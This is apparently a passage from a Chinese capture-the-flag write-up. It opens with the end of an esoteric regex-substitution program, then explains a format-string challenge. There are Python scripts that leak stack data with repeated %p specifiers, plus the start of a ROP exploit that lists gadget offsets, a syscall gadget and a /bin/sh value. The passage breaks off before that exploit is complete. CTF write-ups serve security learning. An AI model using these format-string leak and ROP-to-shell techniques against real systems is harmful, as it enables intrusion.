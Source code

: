 ```
重复把【(?sm:🌷\+(?P<T>.*?)🍆(?P<D>.*?)🌵\376)】替换成【+🌷\g<T>🍆\g<D>🌵\377】喵
重复把【(?sm:🌷\-(?P<T>.*?)🍆(?P<D>.*?)🌵\377)】替换成【-🌷\g<T>🍆\g<D>🌵\376】喵
重复把【(?sm:🌷\+(?P<T>.*?)🍆(?P<D>.*?)🌵\377)】替换成【+🌷\g<T>🍆\g<D>🌵\000】喵
重复把【(?sm:🌷\-(?P<T>.*?)🍆(?P<D>.*?)🌵\000)】替换成【-🌷\g<T>🍆\g<D>🌵\377】喵
如果没看到【(?sm:🌷\[.*?🍆.*?🌵\000)】就跳转到【不需要跳过循环】喵
跳过循环：
重复把【(?sm:🌷(?P<T>[^][🍆]*?)\[)】替换成【\g<T>🍏[🌷】喵
重复把【(?sm:🍏\[(?P<T0>[^🍏]*?)🌷(?P<T1>[^][🍆]*?)\])】替换成【[\g<T0>\g<T1>]🌷】喵
如果看到【🍏】就跳转到【跳过循环】喵
不需要跳过循环：
重复把【(?sm:🍈\[(?P<T0>[^🍈]*?)🌷\](?P<T1>.*?)🍆(?P<D>.*?)🌵(?P<d>[^🌱\000]))】替换成【🍈[🌷\g<T0>]\g<T1>🍆\g<D>🌵\g<d>】喵
重复把【(?sm:🍈\[(?P<T0>[^🍈]*?)🌷\](?P<T1>.*?)🍆(?P<D>.*?)🌵\000)】替换成【[\g<T0>]🌷\g<T1>🍆\g<D>🌵\000】喵
如果看到【🌷.+🍆】就跳转到【主循环】喵
把【(?sm:.*🌱)】替换成【】喵
谢谢喵
```



## 初学 C 语言

flag1 在栈上，`printf()` 的格式字符串又可以随便给，直接不停地给 `%p`，flag1 就泄露出来了。

```python
import socket
import numpy as np

s = socket.socket()
s.connect(('prob09.geekgame.pku.edu.cn', 10009))

print(s.recv(8192))
s.send(b'<my-token-not-visible-to-otherone>\n')
print(s.recv(8192))
s.send(b'%p %d' + b' %#lx' * 64 + b'\n')
buf = s.recv(8192)
print(buf)
buf = list(map(eval, buf.decode().split('\n')[0].split(' ')[1:]))
buf = np.array(buf)
print(buf.tobytes())
```

上面的脚本中使用了 `eval()` 以致敬 `printf()` 无私奉献的精神。

对于 flag2，出题人善良地将 `printf()` 写在循环里，使得我们可以使用逐字节写入的手段修改栈中的数据。

```python
import socket
import numpy as np

TEST_RETADDR_OFFSET = 0xa3fd
POP_RAX_RET_OFFSET = 0x5a777
POP_RDI_RET_OFFSET = 0x9cd2
POP_RSI_RET_OFFSET = 0x1781e
POP_RDX_RET_OFFSET = 0x9bdf
SYSCALL_OFFSET = 0x9643
BIN_SH_VALUE = 0x68732f6e69622f

s = socket.socket()
s.connect(('prob09.geekgame.pku.edu.cn', 10009))

print(s.recv(8192))
s.send(b'<my-token-not-visible-to-otherone>\n')
print(s.recv(8192))
s.send(b'%p %165$p\n')  # 前5: 寄存器  6: (%rsp)  163: 金丝雀  164: 老 %rbp  165: 8(%rbp) 即退回地址
buf = s.recv(8192)
```